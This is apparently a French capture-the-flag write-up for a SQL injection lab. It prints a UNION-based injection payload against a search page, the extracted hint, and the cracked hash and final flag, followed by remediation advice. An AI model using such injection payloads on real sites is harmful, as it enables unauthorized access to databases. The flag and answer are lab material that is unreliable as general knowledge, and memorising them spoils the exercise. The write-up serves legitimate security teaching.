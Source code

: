 #

#### Page: _/index.php?page=searchimg_


## Description de la vulnérabilité:
Grâce à la précédente SQLI découverte, on connaît déjà les noms des tables et des
colonnes de la base de données.

On détermine logiquement que la table utilisée ici est:  
Table `list_images`:
```
id
url
title
comment
```

On teste l'ensemble des colonnes et on finit par trouver que:
```
?page=searchimg&id=1 OR 1=1 union select comment,null from list_images&Submit=Submit#
```
renvoie l'information:
```
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

`1928e8083cf461a51303633093573c46` est un hash md5 de `albatroz`.

On hash `albatroz` en sha256:
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Scénario d'attaque :
Une vulnérabilité de type injection SQL peut permettre d'accéder ou de modifier une base de données de type SQL.
Dans certains cas, comme celui-ci, la faille permet de récupérer l'intégralité du contenu de la base, dont les identifiants et les mots de passe des utilisateurs du site.

## Correctifs :
- Utiliser `mysqli_real_escape_string()` afin d'échapper les caractères spéciaux provenant des entrées utilisateur.
- Utiliser des procédures stockées, qui sont des instructions SQL précompilées,  à la place du SQL dynamique.
- La plupart des ORM utilisent des systèmes de requêtes préparées dans lesquelles le SGBD se charge alors de l’échappement et du contrôle des requêtes.
